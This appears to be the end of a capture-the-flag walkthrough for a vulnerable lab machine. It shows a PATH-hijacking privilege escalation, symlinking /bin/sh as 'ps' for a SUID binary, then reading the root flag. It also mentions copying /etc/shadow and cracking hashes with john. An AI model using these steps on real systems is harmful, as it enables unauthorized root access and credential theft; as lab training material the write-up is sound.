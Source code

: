 $ cd /var/www/backup
$ ./procwatch
//this ELF uses ps at some point during its execution, so lets make a new ps command in this folder and add it to path

$ export PATH="$(pwd):$PATH"

//create symbolic link and name it ps (I tried /bin/bash first, but it did not elevate privileges)
$ ln -s /bin/sh ps
$ ./procwatch 

# whoami
root
//pwned
# cd /root/
# ls
proof.txt
# cat proof.txt
adf11c7a9e6523e630aaf3b9b7acb51d

It seems that you have pwned the box, congrats. 
Now you done that I wanna talk with you. Write a walk & mail at
xly0n@sigaint.org attach the walk and proof.txt
If sigaint.org is down you may mail at nbsly0n@gmail.com


USE THIS PGP PUBLIC KEY

-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: BCPG C# v1.6.1.0

mQENBFW9BX8BCACVNFJtV4KeFa/TgJZgNefJQ+fD1+LNEGnv5rw3uSV+jWigpxrJ
Q3tO375S1KRrYxhHjEh0HKwTBCIopIcRFFRy1Qg9uW7cxYnTlDTp9QERuQ7hQOFT
e4QU3gZPd/VibPhzbJC/pdbDpuxqU8iKxqQr0VmTX6wIGwN8GlrnKr1/xhSRTprq
Cu7OyNC8+HKu/NpJ7j8mxDTLrvoD+hD21usssThXgZJ5a31iMWj4i0WUEKFN22KK
+z9pmlOJ5Xfhc2xx+WHtST53Ewk8D+Hjn+mh4s9/pjppdpMFUhr1poXPsI2HTWNe
YcvzcQHwzXj6hvtcXlJj+yzM2iEuRdIJ1r41ABEBAAG0EW5ic2x5MG5AZ21haWwu
Y29tiQEcBBABAgAGBQJVvQV/AAoJENDZ4VE7RHERJVkH/RUeh6qn116Lf5mAScNS
HhWTUulxIllPmnOPxB9/yk0j6fvWE9dDtcS9eFgKCthUQts7OFPhc3ilbYA2Fz7q
m7iAe97aW8pz3AeD6f6MX53Un70B3Z8yJFQbdusbQa1+MI2CCJL44Q/J5654vIGn
XQk6Oc7xWEgxLH+IjNQgh6V+MTce8fOp2SEVPcMZZuz2+XI9nrCV1dfAcwJJyF58
kjxYRRryD57olIyb9GsQgZkvPjHCg5JMdzQqOBoJZFPw/nNCEwQexWrgW7bqL/N8
TM2C0X57+ok7eqj8gUEuX/6FxBtYPpqUIaRT9kdeJPYHsiLJlZcXM0HZrPVvt1HU
Gms=
=PiAQ
-----END PGP PUBLIC KEY BLOCK-----
```
For fun I also grabbed /etc/passwd and /etc/shadow and unshadowed them on my machine, then used john to try to crack remaining user accounts. I'll leave that as an exercise to the reader ;)
